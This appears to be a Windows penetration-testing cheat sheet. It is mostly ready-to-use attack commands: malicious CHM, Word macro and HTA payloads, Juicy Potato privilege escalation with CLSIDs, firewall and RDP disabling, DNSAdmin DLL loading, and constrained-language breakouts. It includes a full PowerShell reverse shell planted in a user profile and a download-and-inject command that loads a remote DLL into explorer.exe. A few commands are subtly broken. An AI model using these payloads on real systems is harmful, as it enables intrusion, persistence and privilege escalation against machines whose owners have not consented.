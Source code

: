 # Windows

### CHM

Use a Windows VM, install the required tools from [here](https://www.microsoft.com/en-us/download/details.aspx?id=21138), then get the scricpt [Out-CHM.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1) and create your payload:

```bash
Out-CHM -Payload C:\Windows\System32\spool\drivers\color\nc.exe -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

### Juicy Potato

#### Metasploit \([Details](http://ohpe.it/juicy-potato/)\)

```bash
use windows/local/ms16_075_reflection_juicy`
set SESSION <>
set CLSID <>
```

Common CLSIDs for the exploit are:

* {e60687f7-01a1-40aa-86ac-db1cbf673334}
* {752073A1-23F2-4396-85F0-8FDB879ED0ED}
* {3c6859ce-230b-48a4-be6c-932c0c202048}
* {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
* {8F5DF053-3013-4dd8-B5F4-88214E81C0CF}
* More can be found [here](http://ohpe.it/juicy-potato/CLSID/)

### Word Macro

Simple Word Macro \(View &gt; Macros, at the end "File-&gt;Information-&gt;Check For Issues" to purge personal details\), save as .doc:

```text
Sub DoStuff()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "<powershell command here>"
    Set wsh = Nothing
End Sub

Sub AutoOpen()
    DoStuff
End Sub
```

Alternativly we can use HTA:

```text
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "powershell -Sta -Nop -Window Hidden -EncodedCommand <blah>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

### Building and Signing MSIs

Use [wix](http://wixtoolset.org/) to generate msi files from xml or to manipulate existing msi files. A complete example can be seen in the [Ethereal Writeup](https://vulndev.io/ctf/2019/03/09/htb-ethereal.html)

### Windows Firewall

#### List rules

```bash
netsh advfirewall firewall show rule name=all
```

#### Disable Firewall on Windows 7 via cmd

```bash
Reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server"  /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Disable Firewall on Windows 7 via Powershell

```bash
powershell.exe -ExecutionPolicy Bypass -command 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" –Value'`
```

#### Disable Firewall on any windows via cmd

```bash
netsh Advfirewall set allprofiles state off
```

### Load DLL from System32

#### Windows  10

* [Diaghub](https://github.com/xct/diaghub)
* [UsoDllLoader](https://github.com/xct/UsoDllLoader)

### RunAs

To run commands with runas, the user has to have logged in at least once.

#### Tools

* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
* [Find-PSServiceAccounts](https://github.com/PyroTek3/PowerShell-AD-Recon)
* [Powercat](https://github.com/besimorhino/powercat)

### Elevate Privileges by loading a custom DLL as DNSAdmin

```bash
# requires RSAT
dnscmd <dc> /config /serverlevelplugindll \\<ip>\<dll>

# requires RSAT
$dnssettings = Get-DnsServerSetting -ComputerName <dc> -Verbose
$dnssettings.ServerLevelPluginDll = "\\<ip>\<dll>"
Set-DnsServerSetting -InputObject $dnssettings -ComputerName <dc> -Verbose
```

Then restart the service:

```bash
sc.exe stop dns
sc.exe start dns
```

### DNS Enumeration/Exploitation Tools

{% embed url="https://github.com/Kevin-Robertson/Powermad\#dns-functions" %}

### Bypass JEA

#### When in constrained language mode \(or more\):

Read File:

```bash
${C:\file.txt}
```

Write File:

```bash
${C:\file.txt} = 'content'
```

Break out by writing a powershell profile \(executed whenever powershell is started by this user\):

```bash
${C:\users\<user>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1} = '$client = New-Object System.Net.Sockets.TCPClient("<ip>",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

Via Script Blocks:

```bash
& { ls }
```

Custom function:

```bash
PS>function xct { ls };
PS>xct
...
```

These vulnerabilities exist only in Constrained Language Mode, usually with JEA "NoLanguage" is to be used.

### RCE via Cab Files

{% embed url="https://www.thezdi.com/blog/2020/7/8/cve-2020-1300-remote-code-execution-through-microsoft-windows-cab-files" %}

### Reflectivly load DLL into explorer.exe

```text
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://<ip>/payload.dll');(New-Object System.Net.WebClient).DownloadString('http://<ip>/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

Via [Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) .

### Dump Sticky Note Contents

* [https://github.com/helich0pper/StickySituation](https://github.com/helich0pper/StickySituation)

### Resources

* [Windows Privilege Escalation by Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
* [GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [Various Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [Using credentials to pwn windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes)

